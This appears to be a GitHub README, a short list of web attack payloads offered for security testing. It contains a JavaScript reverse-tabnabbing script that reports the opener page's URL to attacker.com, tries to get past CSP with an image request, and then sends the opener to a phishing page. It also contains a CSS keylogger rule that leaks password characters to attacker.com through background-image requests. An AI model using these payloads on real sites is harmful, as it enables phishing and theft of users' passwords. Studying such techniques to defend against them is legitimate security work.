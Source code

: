 # PEN
A curated list of script and attack for security testing purposes and knowledgement.  
  
## JavaScript:
  - #### `target="_blank"` vulnerability:
    ```javascript
    if (window.opener && window.opener.location) {
      // Imagine this script as a library added to an attacker official website.
      // If this site is opened by an user that clicked to an `a` element
      // with target attribute setted to '_blank', the browser will initialize an `opener` object,
      // referred to the browser window which the user came from.
      // This weakness could be used to redirect the opener window to a phishing site.

      let randomUserID = Math.random().toString().slice(2,),
        urlStartPhishing =
          `//attacker.com/new/phishing/?location=${window.opener.location}&user=${randomUserID}`,
        redirect2Phishing = () => {
          // Wait for the deployment of the phishing site.
          setTimeout(() => {
            window.opener.location.assign(`//attacker.com/${randomUserID}/${window.opener.location}`)
          }, 8000)
        };

      fetch(urlStartPhishing)
        .then(response => {
          redirect2Phishing()
        })
        .catch(err => {
          // Error, maybe CSP :(

          let bypassCSP = new Image();
          bypassCSP.src = urlStartPhishing;
          redirect2Phishing()
        });
    }
    ```  
    References:
    - https://dev.to/ben/the-targetblank-vulnerability-by-example
    - https://sites.google.com/site/bughunteruniversity/nonvuln/phishing-with-window-opener
  
## CSS:
  - #### CSS Keylogger: 
    ```css
    input[type="password"][value$="a"] {
      background-image: url("https://attacker.com/a");
    }
    ```  
    References:
    - https://github.com/maxchehab/CSS-Keylogging
    - https://hackaday.com/2018/02/25/css-steals-your-web-data/
